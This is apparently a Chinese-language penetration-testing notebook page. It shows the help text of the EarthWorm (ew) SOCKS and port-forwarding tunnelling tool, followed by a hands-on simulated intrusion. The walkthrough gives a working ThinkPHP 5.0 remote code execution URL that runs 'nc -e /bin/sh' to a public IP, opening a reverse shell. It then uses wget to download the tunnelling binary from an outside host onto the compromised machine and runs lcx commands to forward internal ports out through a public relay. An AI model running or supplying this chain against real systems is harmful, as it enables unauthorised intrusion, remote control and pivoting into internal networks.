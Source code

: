 
# - -help 
```
VERSION : free 1.0 
 ./xxx ([-options] [values])*
 options :
 Eg: ./xxx -s ssocksd -h 
 -s state setup the function.You can pick one from the 
 following options:
 ssocksd , rcsocks , rssocks , 
 lcx_listen , lcx_tran , lcx_slave
 # -s 选项选择连接模式，除了lcx的三种模式还有ssocksd正向SOCKS V5服务器、（rcsocks(公网监听转发主机)、rssocks（目标主机））反弹SOCKS V5服务器。
 -l listenport open a port for the service startup.#监听端口
 -d refhost set the reflection host address.#设置反射主机地址（公网IP）
 -e refport set the reflection port.#设置转发到的端口
 -f connhost set the connect host address .#设置连接主机地址（参考lcx的h2）要把这台内网主机的流量转发到公网上
 -g connport set the connect port.#设置要转发出去的端口（参考lcx的p2）
 -h help show the help text, By adding the -s parameter,
 you can also see the more detailed help.# 可以使用 ./ew -s [ssocksd|rcsocks|rssocks|lcx_listen|lcx_tran|lcx_slave]等获取关于具体模式的帮助
 -a about show the about pages # 显示关于
 -v version show the version. #显示版本
 -t usectime set the milliseconds for timeout. The default 
 value is 1000 #忙猜设置超时时间，默认1000  英语不好也可以猜
 ......
```

# 参考教程敲一遍（做个小模拟渗透）
**注：** 
- 攻击机位于我的笔记本上的kali nat联网 ip：192.168.153.133
- 被攻击的是校内我搭建的靶机 ip:10.203.87.64  环境：tp5.0
- 公网主机：45.\*.\*.190
## 做个小模拟渗透
利用命令执行弹shell
  
这次用NC弹shell
http://10.203.87.64/tp5/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=nc%20-e%20/bin/sh%2045.76.101.190%201235


公网服务器上面监听：
nc -l -p 1235
下载ew
wget -p /tmp http://45.\*.\*.190/ew_for_linux


## 使用lcx相关的功能
### 将肉鸡的22端口或者内网中的10.203.87.61的80端口转发到公网上8888端口
`./ew_for_linux -s lcx_slave  -d 45.*.*.190 -e 8888    -f 127.0.0.1  -g  6522`

> 第一次用就出了一个问题
```
[root@localhost 45.*.*.190]# ./ew_for_linux -s lcx_slave  -d 45.*.*.190 -e 8888    -f 127.0.0.1  -g  6522
-bash: ./ew_for_linux: /lib/ld-linux.so.2: bad ELF interpreter: 没有那个文件或目录
```
> 解决方案到肉鸡上：yum install glibc.i686，那么如果肉鸡上没有安装权限可能就要换工具了

### 公网服务器监听端口转发8888
` ./ew_for_linux -s lcx_listen -l  8888   -e 8889`


